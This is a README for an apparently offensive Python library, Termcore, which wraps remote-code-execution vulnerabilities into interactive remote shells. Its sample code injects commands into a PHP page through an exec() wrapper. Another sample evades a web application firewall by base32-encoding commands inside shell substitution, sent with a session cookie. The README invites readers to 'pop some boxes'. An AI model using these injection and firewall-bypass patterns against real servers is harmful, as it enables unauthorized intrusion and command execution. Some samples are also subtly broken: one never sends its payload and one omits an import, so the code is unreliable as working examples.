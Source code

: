 # Termcore

## Getting remote shells from narrow rce's


# Sample Uses

### Sample shell with hidden user *this is just a sample this is not by any means secure*

```py
from termcore import termcore
import os

class myTerm(termcore):
	def Exec(self, payload):
		os.system(payload)

	def customCommands(self, command, params):
		if command == 'whoami':
			print("That command is blacklisted")
			return True
		return False
		
term = myTerm("h", "kali")
```

### Sample shell From a RCE vulnerability (simple)

```py
from termcore import termcore
import os
import base64
import requests

url = 'http://example.com/vulnerable-page.php'

class myTerm(termcore):
	def preExec(self, command, params):
		return '; exec("' + command + " " + params + '")'

	def postExec(self,response):
	    response = re.sub(r"\<.*\>", "", response)
	    return response

	def Exec(self, payload):
		return requests.post(url).text

term = myTerm("www-data", "example.com")
```


### Sample shell From a RCE vulnerability and WAF bypass (advanced)

```py
from termcore import termcore
import os
import base64
import requests

sessid = 'S0m5S3SS10n1Dh3R3' 
url = 'http://example.com/remotecommands'
headers = {
	'Cookie' : 'session=' + sessid,
	'Content-Type': 'application/json'
}

class myTerm(termcore):
	def preExec(self, command, params):
		return "$(''base32 -''d <<< '" + str(base64.b32encode((command + " " + params).encode())) + "')"

	def postExec(self,response):
	    response = re.sub(r"\<.*\>", "", response)
	    return response

	def Exec(self, payload):
		return requests.post(url, data={'schedule': payload}, headers=headers).text

term = myTerm("www-data", "waffedexample.com")
```


# So, what to do?

Well, `import termcore from termcore`, override the stumps, pop some boxes.

## Stumps

### preExec(self, command, params):
> Gets whatever user has entered, and prepares and returns the payload.
> In an imaginary scenario where user needs to wrap their command in $ signs and user enters `ls -al`:
- command: ls
- params: -al
- should return: "$ " + command + " " + params + " $"

### Exec(self, payload):
> Get the payload executed, capture and return the raw response.

For example, 
- if you are just playing in your local, do `os.system(payload)`
- if you are on remote and need to send http request, your preExec should have your payload ready. Send it via requests.get/post
- if you need to send it to a socket on remote, use sockets to send the payload and get the response.

### postExec(self, response):
> Gets whatever response is returned from Exec, and cleans the output. Returns response from the user command.

So if RCE response is returned in as a cookie, get http response and only return the cookie.

If RCE response is returned in a <div id="something">, parse the html and return only the div innerhtml.

### cd(self, directory): *OPTIONAL*
> change working directory.

cd is implemented on the terminal, as it is with any terminal program. If you need to change directories, implement your own logic for it.

### customCommands(self,command, params):
> Evaluated first before the Exec. Should return `True` if a custom command is being processed, and `False` if not.

